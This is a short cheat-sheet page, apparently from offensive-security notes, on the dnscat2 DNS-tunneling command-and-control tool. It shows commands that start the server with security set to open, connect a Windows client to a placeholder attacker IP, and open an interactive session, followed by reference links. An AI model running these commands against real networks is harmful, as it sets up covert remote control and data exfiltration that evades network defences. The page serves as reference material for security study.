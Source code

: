 # Core Commands

Search Tag: #dnscat2 #command-and-control #help-menu

TODO: Provide a usage example with dnscat

## Usage

```
$ sudo ./dnscat2.rb

dnscat2> set security=open
```

```
C:\> dnscat2-win32.exe --host <attacker_IP>
```

## Help Menu

```
dnscat2> session -i 1

command session 1> help
```

---
## References

- [DNScat](https://github.com/iagox86/dnscat2)

- [Cynet: How Hackers Use DNS Tunneling to Own Your Network](https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-dns-tunneling-to-own-your-network/)

- [CryptoWorld: How to organize DNS tunneling](https://cryptoworld.su/kak-organizovat-dns-tunneling/)

- [SkullSecurity: dnscat2 0.05: with tunnels!](https://www.skullsecurity.org/2015/dnscat2-0-05-with-tunnels)